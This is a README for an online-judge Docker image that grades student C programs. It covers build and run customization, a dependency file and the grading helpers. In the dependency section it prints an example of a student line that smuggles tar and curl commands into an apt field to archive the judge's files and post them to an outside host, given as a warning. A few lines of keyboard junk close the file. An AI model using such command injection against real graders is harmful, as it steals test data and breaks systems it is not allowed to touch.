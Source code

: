 # OJ Sample judging image

This image serves as a base for grading student submissions. 
There are many hardcoded restrictions so please do read this document! 
If in doubt, you can consult the reference implementation.

# Quick start

We have set up this base image for simple judging tasks, which

* runs on ubuntu 16.04
* submission is a single c source file named `main.c` targeting c11
* compiled binary takes input from STDIN and print to STDOUT
* output is graded by `diff`ing it with a predefined reference output
* may have numerous test cases
* does not require installing student-defined dependencies with `apt` or `pip3`

If your need happens to match this, you can start reading the section on
where to place test data. 
If not, we have also written a few common customization guides.
If all failed, please refer to the [WALKTHROUGH.md](WALKTHROUGH.md)
we have written. 
This detailed guide contains everything you will need to rewrite this
image to suit your needs.

## Test data location
It is placed in `tests/` directory. Please refer to readme inside those 
directories on details.

## Customize build command

1. Edit `build` script. 
1. Replace line 4 with your command.
1. If your command require addition packages, please add them to
relevant location in `Dockerfile`

Please be ware your compile command have connectivity to the internet.

Please note the default run script requires an executable file at 
`/test/executable` as the student program.
Since you are using custom compile command, you may also wish to use
a custom run command.

## Customize run command
1. Edit `run.py` script. 
1. Replace line 101 with the executable.
2. Replace line 106 with the arguments to the executable including `argv[0]`
 which is executable name.
1. There are various other settings can be changed in the script.
 
 For anything more advanced

## Install student defined dependencies

*If you are using python, please note `pip install .` is considered a 
build command and should not be used here.*

Uncomment everything inside `setup` script. 

Oh, Please don't uncomment the shebang line (`#!/usr/bin/env bash` line)

This will allow student to place a file named dependencies. 
This file is a key-value file, with key being the installation method,
and the value being the dependency.
One pair per line.
The key-value is separated with three colons (`:::`)
This image comes with `apt` and `pip3` installation method but it is 
easy to define your own.

NOTE: For sake of security, we enforce a rule of *one dependency per line*.

### Adding/removing custom dependency installation method

Open `dep.awk`, while you may not be familiar with awk, the template 
should be easy enough to follow.

First, you select a good identifier to indicate the installation method.
This identifier does not need to have connection with the actual
install command, e.g. `asjdui` can be used to identify `pip3 install -U`
but your student will believe you can't name things properly.

You then think of how the actual installation should commence.
You should write a command template that would install the package.

You now fill the following template and append the result to `dep.awk`.

    $1~/<identifer>/ {
        print "run_cmd.py <install command>" "--" $2 
    }

---

Remember the student may give a line like this

    apt:gcc;tar -zcvf /t /judge;curl -X POST example.com/post -d /t

So it's suggested to pass the dependency as a single argument. 
This is also why we enforce the rule of *one dependency per line*.

We have provided two wrappers `run_cmd.py` and `run_cmd_no_slash.py`
to facilitate this need.

The first wrapper will take first argument as target executable, other 
argument before `--` as options, and join everything after `--` with
a space as delimiter and use the result as a whole as the last argument 
to the target executable.   

The second wrapper will additionally reject any package that has `/` in
it.
This will be helpful to prevent package manager from installing from 
local directory, as installation script of a local package is not as
trusty as one on e.g. `PyPI`.

# Customize grading method
It is suggested to use the utilities in `grading/util.py` as the OJ
requires a specific pattern in `STDOUT` to be able to read the grading
result.

You can consult `grading/grade.py` on how to use it.
adsfdsadfafds
adfadfadfsdafsdfsafdssfdsdffsd
dsfdsfdfsd

